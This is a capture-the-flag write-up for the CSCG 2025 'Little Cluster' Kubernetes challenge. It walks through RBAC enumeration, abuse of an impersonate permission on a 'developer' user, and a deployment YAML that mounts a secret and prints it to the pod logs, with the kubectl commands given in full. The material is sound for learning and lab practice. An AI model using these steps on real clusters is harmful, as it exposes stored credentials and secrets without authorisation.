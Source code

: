 ```yaml
---
title: Little Cluster - CSCG 2025 - Write-Up
date: 2025-04-24 10:00:00 +0200
categories: [Cyber Security Challenge Germany]
tags: [kubernetes,privesc]
description: Escalate your privileges with kubernetes.
image:
  path: /assets/blog/Little Cluster/logo.png
  alt: CSCG image
---
```



This is a Write-Up for the challenge "Little Cluster" of the CSCG 2025. The challenge was created by `Diff-fusion` and is rated as easy.

## Intro

The challenge provides us with a short description and even some resources for learning Kubernetes.

> Hey, today you'll learn to become a captain on the high seas of Kubernetes. Spawn yourself a ship and login to the helm to get started. You are deployed into a nice pod that is prepared with a `kubectl` to control everything you need. As a start you should figure out what you are allowed to do and the find the secret flag hidden on the ship.
> 
> Here are some additional resource to get you started:
> 
> - API [Authentication](https://kubernetes.io/docs/reference/access-authn-authz/authentication/) and [Authorization](https://kubernetes.io/docs/reference/access-authn-authz/authorization/)
> - Workload [Pods](https://kubernetes.io/docs/concepts/workloads/pods/) and [Deployments](https://kubernetes.io/docs/concepts/workloads/controllers/deployment/)
> - `kubectl` command [reference](https://kubernetes.io/docs/reference/kubectl/)

## Summary

Kubernetes is a container orchestration platform that manages containerized applications. It consists of various components. The components necessary to solve this challenge are the [RBAC](https://kubernetes.io/docs/reference/access-authn-authz/rbac/) (Role Based Access Control), Secrets and the [Logging](https://kubernetes.io/docs/concepts/cluster-administration/logging/).

In a cluster, you can assign Role-Based Access Control (RBAC) to users, which defines the permissions they hold for specific resources. These permissions are composed of two elements:

1. The resource the permission pertains to
2. The action (verb) the user is authorized to perform on that particular 
resource

In essence, this determines what operations a user can execute on a given resource within the cluster. These rules help the SecDevOp engineers to restrict access of users and only apply permissions the user needs.

Secrets in Kubernetes are used to store passwords, private keys, API-Keys and more. They were invented to handle secrets in a centralized place, managed by Kubernetes.

Logging in Kubernetes is many for, you guessed it, logging but according to the Kubernetes documentation it can also be used to debug certain applications. The way kubernetes produces logs is by simply taking anything written to the standard output and standard error stream. 


## Enumeration

The first thing to do in this challenge is to locate the flag. You can check the currently running pods with `kubectl get pods` command. In the list of these pods there is one particularly interesting pod, the `flag-keeper` pod. To view more details to this container the command `kubectl describe pod <name>` can be used. This will return an enormous list of pod properties.  Among the crucial sections contained is the Volumes segment, this entries tells you what volumes are mounted to the containers. In the challenge the volume `flag` is mounted to `/flag`, additionally the volume contains a secret. This secret has the name `flag`. So the flag is accessible as the file `/flag/flag`. 

```
    Mounts:
      /flag from flag (ro)
...
Volumes:
  flag:
    Type:        Secret (a volume populated by a Secret)
    SecretName:  flag
    Optional:    false
```

In order to inspect the existing permissions of users within a Kubernetes cluster, you can utilize the command `kubectl auth can-i --list`. This command returns a list of resources and actions (verbs) that each user is authorized to perform. One particularly important privilege is the last one, with that privilege you can impersonate, you can be, the `developer` user.

| Resources          | Non-Resource URLs       | Resource Names        | Verbs
|---------------------|-----------------------|----------------------|---------------|
| users              | []                    | [developer]          | [impersonate] |

The developer user, in contrast to regular users, is weaponized with a greater scope of permissions that allow them to perform tasks such as creating deployments and reading logs within the Kubernetes environment. By running the command `kubectl auth can-i --list --as=developer`, a list of permissions of the developer user can be retrieved.

| Resources           | Non-Resource URLs      | Resource Names        | Verbs |
|---------------------|-------------------|--------------------|---------------|
| deployments.apps    | []                | []                | [get, watch, list, create, delete] |
| pods/log            | []                | []                | [get] |



## Vulnerability

The vulnerability lies in granting the given user the privileges to impersonate the developer user. This user is granted with unrestricted deployment creation and log access. This is a common issue, that **unnecessary and dangerous permissions** are granted to users who do not need it. 

## Exploit

Given that the present user is granted permission to impersonate the developer user and this user has the rights to create deployments and access logs, you can build an exploit.

Even though the developer user has the explicit privilege to create pods by himself, he can use a deployment to deploy a pods. The following deployment file will create a pod with one container. After the container is started the secret is mounted to the container via a volume. To return the flag the initial command for the container is set to be `/bin/sh -c cat /mnt/flag/flag`, which will print the flag. Kubernetes automatically sends anything printed to `stdout` to the logs of the pod.

```sh
cat > deployment.yaml << EOF
apiVersion: apps/v1
kind: Deployment
metadata:
  name: flag-logger
spec:
  replicas: 1
  selector:
    matchLabels:
      app: flag-logger
  template:
    metadata:
      labels:
        app: flag-logger
    spec:
      containers:
      - name: flag-reader
        image: busybox
        command: ["/bin/sh", "-c", "cat /mnt/flag/flag && sleep 3600"]
        volumeMounts:
        - name: flag-volume
          mountPath: "/mnt/flag"
          readOnly: true
      volumes:
      - name: flag-volume
        secret:
          secretName: flag
          optional: false
EOF
```

Following the creation of the deployment file, the next step involves applying this configuration as the developer user. To accomplish this task, you may use the `kubectl apply -f <file-name>` command.
```sh
kubectl --as developer apply -f deployment.yaml
```

To get the logs of a pod you first need to identify the pod name, this pod name is usually appended with a suffix of random hex. So to list all pods you may use the command below.
```sh
kubectl --as developer get pods
```

Finally you view the logs with the command below. Note that the container name may be different as explained above.

```sh
kubectl --as developer logs flag-logger-7d459c84b5-xlkl5
```


Flag:
```
CSCG{4h0y_c4pt41n!}
```
